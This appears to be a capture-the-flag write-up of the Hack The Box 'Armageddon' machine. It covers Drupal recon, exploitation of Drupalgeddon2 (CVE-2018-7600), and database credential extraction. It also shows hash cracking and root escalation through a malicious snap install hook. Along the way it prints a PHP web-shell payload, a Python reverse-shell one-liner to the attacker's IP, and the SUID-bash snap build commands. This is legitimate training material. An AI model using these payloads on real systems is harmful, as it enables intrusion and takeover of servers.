



---
tags:
  - drupal
  - sudo_snap
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Armageddon
- Reference : https://khaoticdev.net/hack-the-box-armageddon/
- Solved : 2024.12.31. (Tue) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Identified SSH (22) and HTTP (80) as open ports.
    - **HTTP Service**:
        - Discovered the server running Drupal 7.56 from the page source and verified using `droopescan`.
        
2. **Web Exploitation**
    - **Drupalgeddon2 Exploit**:
        - Used `drupalgeddon2` exploit to gain Remote Code Execution (RCE).
        - Uploaded a PHP webshell and obtained an interactive shell as the `apache` user.
        
3. **Database Enumeration**
    - Found database credentials (`drupaluser:CQHEy@9M*m23gBVj`) in `settings.php`.
    - Used MySQL commands to enumerate the database and extracted the hash for `brucetherealadmin`.
    
4. **User Privilege Escalation**
    - Cracked the Drupal hash (`$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`) with `hashcat`, revealing the password `booboo`.
    - Logged in via SSH as `brucetherealadmin`.
    
5. **Root Privilege Escalation**
    - Identified `sudo` permission to run `snap install` without a password.
    - Created a malicious Snap package to modify permissions of `/home/brucetherealadmin/bash`:
        - Added SUID bit using the command: `chmod 4755 /home/brucetherealadmin/bash`
    - Executed `/home/brucetherealadmin/bash` with `-p` to obtain a root shell.

### Key Techniques:

- **Enumeration**: Identified Drupal CMS and extracted sensitive credentials from configuration files.
- **Exploit Usage**: Leveraged `drupalgeddon2` and `snap install` privilege escalation techniques.
- **Hash Cracking**: Used `hashcat` to crack Drupal user hash.
- **Privilege Escalation**: Abused `sudo` permissions on `snap install` to escalate to root.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.233
Performing quick port scan on 10.10.10.233...
Found open ports: 22,80
Performing detailed scan on 10.10.10.233...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-31 04:26 EST
Nmap scan report for 10.10.10.233
Host is up (0.57s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|_  256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 203.23 seconds
```

Only 2 ports are open : ssh(22), http(80)

### http(80)


The index page is simple empty login page.

```html
<head profile="http://www.w3.org/1999/xhtml/vocab">
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<link rel="shortcut icon" href="http://10.10.10.233/misc/favicon.ico" type="image/vnd.microsoft.icon" />
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
  <title>Welcome to  Armageddon |  Armageddon</title>
  <style type="text/css" media="all">
@import url("http://10.10.10.233/modules/system/system.base.css?qkrkcw");
@import url("http://10.10.10.233/modules/system/system.menus.css?qkrkcw");
@import url("http://10.10.10.233/modules/system/system.messages.css?qkrkcw");
@import url("http://10.10.10.233/modules/system/system.theme.css?qkrkcw");
```

On its source code, it's giving us a hint that the server is running on `drupal`.
For drupal CMS, there's an automated scan tool named `droopescan`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ /home/kali/.local/bin/droopescan scan drupal -u http://10.10.10.233

[+] Plugins found:
    profile http://10.10.10.233/modules/profile/
    php http://10.10.10.233/modules/php/
    image http://10.10.10.233/modules/image/

[+] Themes found:
    seven http://10.10.10.233/themes/seven/
    garland http://10.10.10.233/themes/garland/

[+] Possible version(s):
    7.56

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.233/CHANGELOG.txt

[+] Scan finished (0:02:55.955098 elapsed)
```

It reveals that the version is `7.56`.


# Shell as `apache`

### drupalgeddon2

Let me google if there's any exploit.



There's an RCE exploit for `CVE-2018-7600` named `Drupalgeddon2`.


```bash
┌──(kali㉿kali)-[~/htb/Drupalgeddon2]
└─$ ruby drupalgeddon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo QEYTTSOX
[+] Result : QEYTTSOX
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> pwd
/var/www/html
armageddon.htb>> whoami
apache
```

It uploads php webshell, and opens an interactive shell.


# Shell as `brucetherealadmin`

### Find DB credential

Let's check if there's any credential saved in the webroot directory using `grep`.

```bash
armageddon.htb>> grep -ir "password" .

<SNIP>
./sites/default/default.settings.php: *     'password' => 'password',
./sites/default/default.settings.php: *     'password' => 'password',
./sites/default/default.settings.php: * by using the username and password variables. The proxy_user_agent variable
./sites/default/default.settings.php:# $conf['proxy_password'] = '';
./sites/default/settings.php: *   'password' => 'password',
./sites/default/settings.php: * username, password, host, and database name.
./sites/default/settings.php: *   'password' => 'password',
./sites/default/settings.php: *   'password' => 'password',
./sites/default/settings.php: *     'password' => 'password',
./sites/default/settings.php: *     'password' => 'password',
./sites/default/settings.php:      'password' => 'CQHEy@9M*m23gBVj',
./sites/default/settings.php: * by using the username and password variables. The proxy_user_agent variable
./sites/default/settings.php:# $conf['proxy_password'] = '';
./themes/bartik/css/ie.css:#password-strength-text {
<SNIP>
```

It seems that `./sites/default/settings.php` file contains valid password.

```php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

It seems that I found the file contains `drupaluser`'s password : `CQHEy@9M*m23gBVj`
To use this credential to `mysql`, we need to open a normal valid shell.

Target : 
```bash
armageddon.htb>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Listener : 
```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.233] 60816
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

Due to the issues of the shell, it's not easy to obtain an interactive mysql shell.
So I ran sql query at once separately.

```bash
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
Database
information_schema
drupal
mysql
performance_schema


bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"
<er -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"                         
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
<SNIP>
taxonomy_term_hierarchy
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog


bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select * from users;"
<er -pCQHEy@9M*m23gBVj -e "use drupal; select * from                  users;"
uid     name    pass    mail    theme   signature       signature_format     created access  login   status  timezone        language    picture  init    data
0                                               NULL    0       0   00       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt      admin@armageddon.eu                     filtered_html        1606998756      1607077194      1607076276      1   Europe/London            0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}


bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select name,pass from users;"
<er -pCQHEy@9M*m23gBVj -e "use drupal; select name,p                 ass from users;"
name    pass

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

Here I can find `brucetherealadmin`'s hash : `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`



Let's crack it using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb/Drupalgeddon2]
└─$ hashcat -m 7900 -a 0 hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit
* Register-Limit

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 335534Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7900 (Drupal7)
Hash.Target......: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
Time.Started.....: Tue Dec 31 12:19:37 2024 (1 sec)
Time.Estimated...: Tue Dec 31 12:19:38 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      344 H/s (8.28ms) @ Accel:32 Loops:1024 Thr:1 Vec:2
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 256/14344385 (0.00%)
Rejected.........: 0/256 (0.00%)
Restore.Point....: 128/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:31744-32768
Candidate.Engine.: Device Generator
Candidates.#1....: carolina -> freedom
Hardware.Mon.#1..: Util: 69%

Started: Tue Dec 31 12:18:57 2024
Stopped: Tue Dec 31 12:19:39 2024
```

The cracked password is `booboo`.
Let's try using it on `drupal` CMS.

Then, it worked, and I was redirected to the following page;



I enumerate through the web page, and googled if there's any exploit for this on the web, but nothing's found.

Instead, let me check if the credential is working on `ssh`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh brucetherealadmin@10.10.10.233                           
brucetherealadmin@10.10.10.233's password: 
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ whoami
brucetherealadmin
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

It worked! And I got `brucetherealadmin`'s shell!


# Shell as `root`

### Enumeration

Let's run `linpeas` to collect server data.

```bash
[brucetherealadmin@armageddon tmp]$ ./linpeas_linux_amd64


╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                        
Linux version 3.10.0-1160.6.1.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-44) (GCC) ) #1 SMP Tue Nov 17 13:59:11 UTC 2020
lsb_release Not Found


╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                           
Sudo version 1.8.23    


╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses                                                   
/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/var/lib/snapd/snap/bin:/home/brucetherealadmin/.local/bin:/home/brucetherealadmin/bin


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid,
    always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
    QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
    _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Here I found out that the user can `sudo` with command `snap`.

### Privesc using `snap`

Here's the reference from GTFOBins :
https://gtfobins.github.io/gtfobins/snap/#sudo

First, I need to prepare `bash` to give SUID permission.

```bash
[brucetherealadmin@armageddon ~]$ cp /usr/bin/bash .
[brucetherealadmin@armageddon ~]$ ls
bash  user.txt
```

Then, I need to generate snap file from kali.
I need to upload it to the target after that.

```bash
┌──(kali㉿kali)-[/tmp]
└─$ COMMAND='chown root:root /home/brucetherealadmin/bash;chmod 4755 /home/brucetherealadmin/bash'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}
```

After that, I can run `snap` command with the uploaded snap file.

```bash
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install xxxx_1.0_all.snap --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": exit status 1)
```

After everything is done, let's check the `bash`'s permission.

```bash
[brucetherealadmin@armageddon ~]$ ls -al bash
-rwsr-xr-x. 1 root root 964536 Dec 31 19:28 bash
```

Since it now has SUID bit, I can spawn a bash shell with root authority.

```bash
[brucetherealadmin@armageddon ~]$ ./bash -p
bash-4.2# id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) euid=0(root) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.2# whoami
root
```

I got root!